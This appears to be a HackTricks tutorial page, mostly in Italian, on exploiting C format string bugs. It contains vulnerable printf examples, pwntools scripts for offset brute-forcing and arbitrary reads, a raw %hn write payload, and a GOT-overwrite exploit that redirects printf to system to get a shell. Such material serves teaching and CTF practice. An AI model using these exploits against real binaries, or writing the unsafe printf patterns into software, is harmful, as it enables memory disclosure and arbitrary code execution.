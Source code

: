 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

In C **`printf`** è una funzione che può essere utilizzata per **stampare** una stringa. Il **primo parametro** che questa funzione si aspetta è il **testo grezzo con i formattatori**. I **parametri successivi** attesi sono i **valori** da **sostituire** ai **formattatori** nel testo grezzo.

Altre funzioni vulnerabili sono **`sprintf()`** e **`fprintf()`**.

La vulnerabilità appare quando un **testo dell'attaccante viene utilizzato come primo argomento** per questa funzione. L'attaccante sarà in grado di creare un **input speciale abusando** delle capacità della **stringa di formato printf** per leggere e **scrivere qualsiasi dato in qualsiasi indirizzo (leggibile/scrivibile)**. Essere in grado in questo modo di **eseguire codice arbitrario**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Esempi:**

* Esempio vulnerabile:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normale:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Con argomenti mancanti:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnerabile:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Accessing Pointers**

Il formato **`%<n>$x`**, dove `n` è un numero, consente di indicare a printf di selezionare il n-esimo parametro (dallo stack). Quindi, se vuoi leggere il 4° parametro dallo stack usando printf, potresti fare:
```c
printf("%x %x %x %x")
```
e potresti leggere dal primo al quarto parametro.

Oppure potresti fare:
```c
printf("%4$x")
```
e leggere direttamente il quarto.

Nota che l'attaccante controlla il parametro `printf`, **il che significa fondamentalmente che** il suo input sarà nello stack quando viene chiamato `printf`, il che significa che potrebbe scrivere indirizzi di memoria specifici nello stack.

{% hint style="danger" %}
Un attaccante che controlla questo input sarà in grado di **aggiungere indirizzi arbitrari nello stack e far accedere `printf` a essi**. Nella sezione successiva verrà spiegato come utilizzare questo comportamento.
{% endhint %}

## **Lettura Arbitraria**

È possibile utilizzare il formato **`%n$s`** per far sì che **`printf`** ottenga l'**indirizzo** situato nella **n posizione**, seguendolo e **stamparlo come se fosse una stringa** (stampa fino a quando non viene trovato un 0x00). Quindi, se l'indirizzo base del binario è **`0x8048000`**, e sappiamo che l'input dell'utente inizia nella quarta posizione nello stack, è possibile stampare l'inizio del binario con:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Nota che non puoi mettere l'indirizzo 0x8048000 all'inizio dell'input perché la stringa sarà tagliata a 0x00 alla fine di quell'indirizzo.
{% endhint %}

### Trova offset

Per trovare l'offset per il tuo input puoi inviare 4 o 8 byte (`0x41414141`) seguiti da **`%1$x`** e **aumentare** il valore fino a recuperare le `A's`.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Quanto è utile

Le letture arbitrarie possono essere utili per:

* **Dump** il **binary** dalla memoria
* **Accedere a parti specifiche della memoria dove sono memorizzate informazioni sensibili** (come canarie, chiavi di crittografia o password personalizzate come in questa [**CTF challenge**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Scrittura Arbitraria**

Il formatter **`%<num>$n`** **scrive** il **numero di byte scritti** nell'**indirizzo indicato** nel parametro \<num> nello stack. Se un attaccante può scrivere quanti più caratteri desidera con printf, sarà in grado di far scrivere a **`%<num>$n`** un numero arbitrario in un indirizzo arbitrario.

Fortunatamente, per scrivere il numero 9999, non è necessario aggiungere 9999 "A" all'input; per farlo è possibile utilizzare il formatter **`%.<num-write>%<num>$n`** per scrivere il numero **`<num-write>`** nell'**indirizzo puntato dalla posizione `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Tuttavia, nota che di solito per scrivere un indirizzo come `0x08049724` (che è un numero ENORME da scrivere tutto in una volta), **si usa `$hn`** invece di `$n`. Questo consente di **scrivere solo 2 Byte**. Pertanto, questa operazione viene eseguita due volte, una per i 2B più alti dell'indirizzo e un'altra volta per i più bassi.

Pertanto, questa vulnerabilità consente di **scrivere qualsiasi cosa in qualsiasi indirizzo (scrittura arbitraria).**

In questo esempio, l'obiettivo sarà **sovrascrivere** l'**indirizzo** di una **funzione** nella tabella **GOT** che verrà chiamata successivamente. Anche se questo potrebbe abusare di altre tecniche di scrittura arbitraria per exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Stiamo per **sovrascrivere** una **funzione** che **riceve** i suoi **argomenti** dall'**utente** e **puntarla** alla **funzione** **`system`**.\
Come accennato, per scrivere l'indirizzo, di solito sono necessari 2 passaggi: **prima scrivi 2Byte** dell'indirizzo e poi gli altri 2. Per farlo si usa **`$hn`**.

* **HOB** è chiamato ai 2 byte più alti dell'indirizzo
* **LOB** è chiamato ai 2 byte più bassi dell'indirizzo

Poi, a causa di come funziona la stringa di formato, devi **scrivere prima il più piccolo** di \[HOB, LOB] e poi l'altro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modello Pwntools

Puoi trovare un **modello** per preparare un exploit per questo tipo di vulnerabilità in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

O questo esempio di base da [**qui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

È possibile abusare delle azioni di scrittura di una vulnerabilità di formato stringa per **scrivere negli indirizzi dello stack** e sfruttare un tipo di vulnerabilità di **buffer overflow**.

## Altri Esempi & Riferimenti

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, uso base delle stringhe di formato per rivelare il flag dallo stack (non è necessario alterare il flusso di esecuzione)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per sovrascrivere l'indirizzo `fflush` con la funzione win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per scrivere un indirizzo dentro main in `.fini_array` (così il flusso torna indietro 1 volta in più) e scrivere l'indirizzo a `system` nella tabella GOT puntando a `strlen`. Quando il flusso torna a main, `strlen` viene eseguito con input dell'utente e puntando a `system`, eseguirà i comandi passati.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se sei interessato a una **carriera nel hacking** e a hackare l'inhackabile - **stiamo assumendo!** (_richiesta di polacco fluente scritto e parlato_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Supporta HackTricks

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.
{% endhint %}
